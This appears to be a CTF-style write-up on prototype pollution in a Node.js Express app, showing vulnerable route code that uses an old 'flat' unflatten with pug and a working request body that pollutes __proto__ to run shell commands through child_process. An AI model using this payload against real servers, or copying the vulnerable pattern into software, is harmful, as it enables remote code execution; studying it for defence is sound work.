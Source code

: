 # Basic
- **Prototype pollution** is a vulnerability found in JavaScript applications which allows attackers to effectively add accessible properties to all objects, which can often lead to remote code execution or a denial-of-service.
  ```javascript
  > obj = { a: 1 }
  { a: 1 }
  > obj.b
  undefined
  > {}.__proto__.b = 2
  2
  > obj.b
  2
  ```
- The `/api/submit` endpoint uses the `unflatten` function to convert the JSON in the request body to the `artist` object, then accesses the `name` property of this object. The `unflatten` function is imported from an old version of the `flat` library, which is vulnerable to prototype pollution.
  ```javascript
  const path          = require('path');
  const express       = require('express');
  const pug           = require('pug');
  const { unflatten } = require('flat');
  const router        = express.Router();

  router.get('/', (req, res) => {
      return res.sendFile(path.resolve('views/index.html'));
  });

  router.post('/api/submit', (req, res) => {
      const { artist } = unflatten(req.body);

      if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
          return res.json({
              'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
          });
      } else {
          return res.json({
              'response': 'Please provide us with the full name of an existing member.'
          });
      }
  });
  
  module.exports = router; 
  ``` 

# Detection
### Vulnerable `pug` library
- Normal request
  ```bash
  POST /api/submit HTTP/1.1
  (Request Body)
  {
    "artist.name":"Alex Westaway",
  }
  ```
- Maliciuos request
  ```bash
  POST /api/submit HTTP/1.1
  (Request Body)
  {
    "artist.name":"Alex Westaway",
    "__proto__.block": {
          "type": "Text", 
          "line": "process.mainModule.require('child_process').execSync(`$(ls)`)"
      }
  }
  ```

# Resource
- https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution
- https://www.intruder.io/research/server-side-prototype-pollution
